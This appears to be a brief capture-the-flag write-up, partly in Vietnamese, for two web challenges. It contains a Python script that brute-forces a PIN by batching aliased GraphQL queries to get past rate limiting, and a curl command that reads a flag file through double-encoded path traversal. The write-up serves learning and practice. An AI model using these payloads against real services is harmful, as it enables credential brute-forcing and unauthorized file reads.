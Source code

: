 # force
Bypass graphql rate limit (https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql#bypassing-rate-limits-using-aliases-in-graphql)
```py
import requests
import re

URL = 'https://web-force-force-5aa82fa33d9da165.be.ax/'

add = 10**5 // 10
l = 0
for i in range(10):
    r = l + add
    t = "query hehe\n{\n"

    for j in range(l, r + 1):
        t += f"  a{j}: flag(pin: {j})\n"
    t += "}"

    headers = {
        'Content-Type': 'text/plain;charset=UTF-8'
    }
    resp = requests.post(URL, data=t.encode(), headers=headers).text

    print(re.findall('cor.*\}', resp))

    l += add
```

# msfrognymize
Dùng (https://book.hacktricks.xyz/pentesting-web/file-inclusion#python-root-element) để bypass => path traversal.
```bash
curl --path-as-is https://msfrognymize.be.ax/anonymized/%252Fflag.txt
```
